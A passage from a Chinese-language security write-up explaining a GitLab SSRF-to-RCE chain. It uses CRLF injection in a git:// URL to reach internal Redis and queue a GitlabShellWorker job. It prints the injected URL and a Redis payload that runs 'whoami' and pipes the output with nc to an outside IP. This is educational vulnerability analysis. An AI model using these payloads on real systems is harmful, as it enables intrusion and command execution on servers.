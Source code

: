 然而并没有成功。不确定为什么这不能工作，但是通过将协议从`http://` 更改为`git://` 可以使其工作。

```
# Does work :)
git://127.0.0.1:333/%0D%0Atest%0D%0Ablah.git

# Expected to be Converted To 
git://127.0.0.1:333/
test
blah.git
```

现在已经知道了`Redis`是什么，它在哪里被使用，以及如何使用`CRLF`注入添加新行，接下来可以为`RCE`创建`payload`。这个想法是通过使用`SSRF`漏洞与内部`Redis`服务器通信，并将一个协议`(Redis)`私接到另一个协议`(git://)`中，并获得远程代码执行。

幸运的是，[@jobertabma](https://twitter.com/jobertabma)已经测试出了[payload - Evaluating Ruby code by injecting Rescue job on the system_hook_push queue through web hook](https://hackerone.com/reports/299473)。现在看看。

```shell
multi
sadd resque:gitlab:queues system_hook_push
lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|whoami | nc 192.241.233.143 80\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
exec
```

如你所知，`Redis`还可以用于后台工作队列。这些工作由[Sidekiq](https://github.com/mperham/sidekiq)处理，它是`ruby`的后台任务处理器。可以查看[sidekiq队列](https://gitlab.com/gitlab-org/gitlab-foss/-/blob/master/config/sidekiq_queues.yml)的列表，看看是否有可以使用的东西。

```
...
- [default, 1]
- [pages, 1]
- [system_hook_push, 1]
- [propagate_service_template, 1]
- [background_migration, 1]
...
```

`system_hook_push`可以用来处理新作业它和实际`payload`中使用的是一样的。现在，为了执行代码/命令，现在需要一个类来做这件事，把它看作一个小工具。幸运的是，`Jobert`还找到了正确的类–[gitlab_shell_worker.rb](https://gitlab.com/gitlab-org/gitlab-foss/-/blob/master/app/workers/gitlab_shell_worker.rb)。

```
class GitlabShellWorker
  include ApplicationWorker
  include Gitlab::ShellAdapter

  def perform(action, *arg)
    gitlab_shell.__send__(action, *arg) # rubocop:disable GitlabSecurity/PublicSend
  end
end
```
